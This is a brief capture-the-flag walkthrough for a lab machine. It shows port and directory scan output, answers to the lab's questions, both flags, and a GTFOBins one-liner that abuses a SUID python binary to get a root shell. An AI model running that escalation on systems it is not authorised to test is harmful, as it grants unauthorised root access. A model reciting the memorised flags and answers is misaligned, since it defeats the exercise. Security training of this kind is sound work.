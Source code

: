 export IP=10.10.71.44

NMAP Scan
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


Q1	Scan the machine, how many ports are open?
```
2

```

Q2	What version of Apache is running?
```
2.4.29

```

Q3	What service is running on port 22?
```
SSH

```


Gobuster Result
```
/uploads              (Status: 301) [Size: 312] [--> http://10.10.71.44/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.71.44/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.71.44/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.71.44/panel/]
```

Q4	What is the hidden directory?
```
/panel

```

Q5  user.txt
```
THM{y0u_g0t_a_sh3ll}

```

Q6	Search for files with SUID permission, which file is weird?
```
/usr/bin/python

```

gtofobins privesc
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```


Q7  root.txt
```
THM{pr1v1l3g3_3sc4l4t10n}

```





